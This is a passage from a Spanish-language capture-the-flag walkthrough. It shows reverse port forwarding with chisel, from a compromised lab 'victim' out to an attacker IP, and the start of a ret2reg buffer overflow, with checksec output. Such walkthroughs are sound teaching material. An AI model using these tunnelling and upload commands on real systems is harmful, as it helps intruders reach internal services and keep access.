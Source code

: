 ## Reverse Port Forwarding
Vamos a subir el binario de `chisel` a la máquina víctima para compartirnos el puerto 7788/TCP.
```console
(local) pwncat$ upload chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.4 MB/s • 0:00:00
[19:52:58] uploaded 8.65MiB in 3.97 seconds
```

En nuestra máquina nos ponemos en escucha con `chisel` por el puerto 1234.
```console
/usr/share/chisel server --reverse -p 1234
2025/01/27 19:53:44 server: Reverse tunnelling enabled
2025/01/27 19:53:44 server: Fingerprint VQMHWDWpyhPcauXiGId/Q4eKo5lgOy/zSUFcouKW534=
2025/01/27 19:53:44 server: Listening on http://0.0.0.0:1234
```

Y en la máquina víctima nos conectamos a nuestra máquina de atacante por el puerto 1234 compartiendo el puerto 7788/TCP para que se convierta en el puerto 7788/TCP de nuestra máquina local.
```console
chmod +x chisel
./chisel client 192.168.18.132:1234 R:7788:127.0.0.1:7788
```

Ahora podemos comprobar que todo ha salido bien haciendo un `netcat` al puerto 7788 en nuestra máquina local.
```console
nc 127.0.0.1 7788
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Ahora si, podemos continuar con el BoF.

## Buffer Overflow (ret2reg)
Primero vamos a comprobar si tiene algún método de seguridad activado y podemos ver que no.
```console
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
